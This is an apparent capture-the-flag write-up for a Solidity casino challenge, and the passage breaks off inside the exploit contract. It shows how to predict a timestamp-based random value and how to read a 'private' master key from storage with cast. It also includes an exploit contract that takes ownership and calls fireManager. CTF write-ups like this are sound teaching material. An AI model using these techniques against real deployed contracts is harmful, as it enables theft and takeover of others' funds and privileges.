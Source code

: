 The `upgradeChallengerAttribute()` function takes arguments of type `uint256` (`challengerId`) and `uint256` (`strangerId`). The `stillSearchingChallenger` modifier checks if `theChallenger` has already been set. If it is set, the function reverts. Otherwise, it continues execution and gets a random number between 0 and 3. Based on the random value:

- If the value is 0, it sets attributes to the stranger's address.
- If the value is 1, it sets attributes to the challenger's address.
- If either of them has all attributes, they become `theChallenger`.
- If the value is 2, it resets the attributes of the challenger.
- If the value is 3, it resets the attributes of the stranger.

In order to become `theChallenger`, we need to call the `upgradeChallengerAttribute()` function 4 times, ensuring that the gacha value is 1 each time.

We can acheive this by precomputing the gacha value then if the value is one we will call upgradeChallengerAttribute() 4 times with in the single transaction.

When we call `challengeCurrentOwner()`, we need to pass the key. The function will then compare the key we passed with the `masterKey`. If both are the same, we will become the `casinoOwner`.

Since `masterKey` is a private variable, we need to retrieve its value by examining the storage slots.

```shell
$cast storage --rpc-url $RPC_URL $ChallengeManagerAddress 1
```

This will return `0x494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559`. This is the key.

The key in ASCII is `INJUINJUINJUSUPERKEYKEYKEYKEYKEY`.

#### Steps to Solve the Challenge

1. **Become a Challenger**: Send 5 ether to call the `approach()` function.
2. **Precompute the Gacha Value**: Calculate the gacha value to determine the outcome.
3. **Call `upgradeChallengerAttribute()`**: If the gacha value is zero or one, call `upgradeChallengerAttribute()` four times.
4. **Get the Key Value**: Retrieve the key value by examining the first slot of the `ChallengeManager`.
5. **Call `challengeCurrentOwner()`**: Once you have all attributes, call `challengeCurrentOwner()` to become the `casinoOwner`.
6. **Call `fireManager()`**: As the new `casinoOwner`, call `fireManager()` to set the `challengeManager` address to zero and solve the challenge.

Below is the Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Setup, Privileged, ChallengeManager} from "src/contracts/Setup.sol";

contract ExploitPrivileged {
    Setup public setup = Setup(//YOUR__SETUP__ADDRESS);
    Privileged public privileged = Privileged(setup.privileged());
    ChallengeManager public challengeManager = ChallengeManager(setup.challengeManager());

    constructor() payable {
        uint256 gacha = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp))) % 4;
        if (gacha == 0 || gacha == 1) {
            challengeManager.approach{value: 5 ether}();
            for (uint8 i = 0; i < 4; i++) {
                challengeManager.upgradeChallengerAttribute(3, 3);
            }
            challengeManager.challengeCurrentOwner(0x494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559);
            privileged.fireManager();
        } else {
```